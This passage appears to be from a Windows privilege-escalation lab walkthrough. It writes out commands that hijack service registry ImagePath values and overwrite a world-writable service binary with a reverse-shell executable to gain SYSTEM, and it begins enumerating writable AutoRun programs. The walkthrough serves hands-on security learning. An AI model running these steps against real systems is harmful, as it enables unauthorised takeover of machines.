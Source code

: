```bash
C:\gr4n173>reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
The operation completed successfully.
```
Where:
`/v:  The value name, under the selected Key, to add.`
`/t: RegKey data types
		[ REG_SZ    | REG_MULTI_SZ | REG_EXPAND_SZ |
		REG_DWORD | REG_QWORD    | REG_BINARY    | REG_NONE ]
		If omitted, REG_SZ is assumed.`
`/d:  The data to assign to the registry ValueName being added.`
`/f: Force overwriting the existing registry entry without prompt.`
Hence by starting `regsvc` we get the reverse shell conection in linux same as above.

### Insecure Service Executables
Here we will be exploiting `filepermsvc` service which can be done same as other service i.e. by changing the `bin_path` directory with the directory of our `reverse.exe`. 
```bash
C:\gr4n173>sc qc filepermsvc
```

Using accesschk.exe, note that the service binary (BINARY\_PATH\_NAME) file is writable by everyone:

```bash
C:\gr4n173\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
```

Copy the reverse.exe executable you created and replace the filepermservice.exe with it:

```bash
C:\gr4n173>copy C:\gr4n173\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y
```

Start a listener on linux and then start the service to spawn a reverse shell running with SYSTEM privileges:

```bash
C:\gr4n173>net start filepermsvc
```

## 3. Registry
### AutoRuns
Query the registry for AutoRun executables:

```bash
C:\gr4n173>reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```


Using accesschk.exe, note that one of the AutoRun executables is writable by everyone:

```bash
C:\gr4n173\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```
